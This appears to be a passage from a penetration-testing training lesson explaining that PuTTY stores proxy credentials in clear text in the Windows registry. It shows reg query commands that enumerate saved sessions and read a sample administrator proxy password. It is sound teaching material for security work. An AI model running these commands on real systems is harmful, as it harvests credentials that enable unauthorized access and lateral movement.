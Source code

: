 ### Putty

For Putty sessions utilizing a proxy connection, when the session is 
saved, the credentials are stored in the registry in clear text.

Code: cmd

```
Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>

```

Note that the access controls for this specific registry key are tied
 to the user account that configured and saved the session. Therefore, 
in order to see it, we would need to be logged in as that user and 
search the `HKEY_CURRENT_USER` hive. Subsequently, if we had admin privileges, we would be able to find it under the corresponding user's hive in `HKEY_USERS`.

### Enumerating Sessions and Finding Credentials:

First, we need to enumerate the available saved sessions:

Further Credential Theft

```powershell
PS C:\htb> reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions

HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh

```

Next, we look at the keys and values of the discovered session "`kali%20ssh`":

Further Credential Theft

```powershell
PS C:\htb> reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh

HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
    Present    REG_DWORD    0x1
    HostName    REG_SZ
    LogFileName    REG_SZ    putty.log

  <SNIP>

    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x5
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    administrator
    ProxyPassword    REG_SZ    1_4m_th3_@cademy_4dm1n!

```

In this example, we can imagine the scenario that the IT 
administrator has configured Putty for a user in their environment, but 
unfortunately used their admin credentials in the proxy connection. The 
password could be extracted and potentially reused across the network.
